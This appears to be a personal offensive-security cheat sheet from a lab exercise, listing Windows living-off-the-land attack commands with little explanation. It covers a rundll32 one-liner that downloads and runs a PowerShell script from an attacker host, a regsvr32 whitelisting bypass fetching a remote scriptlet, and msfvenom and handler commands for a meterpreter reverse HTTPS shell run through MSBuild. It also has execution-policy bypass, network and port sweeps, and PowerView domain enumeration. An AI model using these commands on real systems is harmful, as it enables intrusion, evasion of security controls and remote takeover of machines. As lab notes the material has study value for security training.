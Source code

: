 # Signed Binary Proxy Execution - Indirect Command Execution
`explorer.exe /root,"C:\Windows\System32\calc.exe"` (Indirect Command Execution)
`rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://AttackBox_IP/script.ps1');");`(Signed Binary Proxy Execution: Rundll32)

# Bypassing Application Whitelisting (Regsvr32- DLL)
`c:\Windows\System32\regsvr32.exe c:\Users\thm\Downloads\live0fftheland.dll` *First Option*
`c:\Windows\System32\regsvr32.exe /s /n /u /i:http://example.com/file.sct Downloads\live0fftheland.dll` *More advanced - Second Option*

# Run powershell with MSBuild! NO powershell.exe (Can also exec shellcode the same way)
`git clone https://github.com/Mr-Un1k0d3r/PowerLessShell.git`
`msfvenom -p windows/meterpreter/reverse_winhttps LHOST=AttackBox_IP LPORT=4443 -f psh-reflection > liv0ff.ps1`
`msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost AttackBox_IP;set lport 4443;exploit"`
`python2 PowerLessShell.py -type powershell -source /tmp/liv0ff.ps1 -output liv0ff.csproj`
`c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\Users\thm\Desktop\liv0ff.csproj`

# ExecutionPolicy Bypass
`powershell -ExecutionPolicy Bypass -File .\kati`

# Other machine discovery 
`1..255 | %{echo "10.0.2.$_"; ping -n 1 10.10.168.$_ | Select-String ttl}`

# Other machines Open ports
`1..1024 | %{echo ((New-Object Net.Sockets.TcpClient).Connect("10.0.2.8", $_)) "Open port on - $_"} 2>$null`

# Powerview
`
powershell -ExecutionPolicy bypass -file .\powerview.ps1
Import-Module .\powerview.ps1
Get-NetUser -Properties description
Get-NetUser -Properties useraccountcontrol
Get-NetUser -Properties useraccountcontrol | findstr ACCOUNTDISABLE
Get-NetGroupMember “Domain Admins”
Find-DomainShare
Get-NetGPO
`
MS Defender works in three protection modes: Active, Passive, Disable modes.Active mode is used where the MS Defender runs as the primary antivirus software on the machine where provides protection and remediation. Passive mode is run when a 3rd party antivirus software is installed. Therefore, it works as secondary antivirus software where it scans files and detects threats but does not provide remediation. Finally, Disable mode is when the MS Defender is disabled or uninstalled from the system.
# Check the service state for windows
`Get-Service WinDefend`
# Check to see the option that enabled or disable on AV